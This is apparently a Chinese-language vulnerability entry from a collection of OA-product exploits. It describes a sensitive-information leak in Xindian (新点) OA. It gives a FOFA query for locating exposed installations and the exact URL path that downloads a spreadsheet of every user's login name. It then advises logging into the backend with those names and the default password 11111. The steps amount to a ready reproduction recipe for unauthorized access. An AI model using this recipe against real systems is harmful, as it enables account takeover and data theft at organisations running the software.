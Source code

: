 ```yaml
---
title: 新点OA 敏感信息泄露漏洞
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - OA产品漏洞
 - 新点OA
---
```


# 新点OA 敏感信息泄露漏洞

## 漏洞描述

新点OA 存在敏感信息泄露漏洞，访问特定的Url时可以获取所有用户的登录名信息，攻击者获取后可以进一步利用

## 漏洞影响

> [!NOTE]
>
> 新点OA

## FOFA

> [!NOTE]
>
> app="新点OA"

## 漏洞复现

构造的Url为

```
/ExcelExport/人员列表.xls
```

将会下载人员列表文件

![](/img/20210924015547503048.png)

通过获取的登录名登陆后台(默认密码11111)